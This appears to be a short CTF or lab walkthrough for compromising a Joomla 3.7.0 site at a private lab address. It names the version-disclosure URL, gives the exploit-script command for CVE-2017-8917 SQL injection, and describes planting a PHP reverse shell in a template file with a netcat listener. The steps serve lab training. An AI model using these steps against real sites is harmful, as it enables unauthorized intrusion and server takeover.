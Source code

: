 - `Admin page - /administrator`
- `Configuration files configuration.php | diagnostics.php | joomla.inc.php | config.inc.php`



- **To find the Joomla version**
```url
http://10.10.8.222/language/en-GB/en-GB.xml
```


____
### Joomla  version 3.7.0 (CVE-2017-8917 SQL injection)

1. Clone the Exploit Repository
https://github.com/stefanlucas/Exploit-Joomla

2. Run the Exploit Script
```
python3 joomblah.py  http://10.10.8.222/
```

___
### Reverse Shell

- Log in to the **Joomla admin dashboard**.
- Go to **Extensions > Templates** and select the active template i.e (**Protostar Details and Files**).
- Edit the `error.php` file and paste the **Pentestmonkey PHP reverse shell** code.
- Set up a listener on your attacker machine `rlwrap -f . -r nc -nvlp 4444`
- Now, to execute our payload, open a web browser and navigate to `http://<IP>/templates/protostar/error.php.`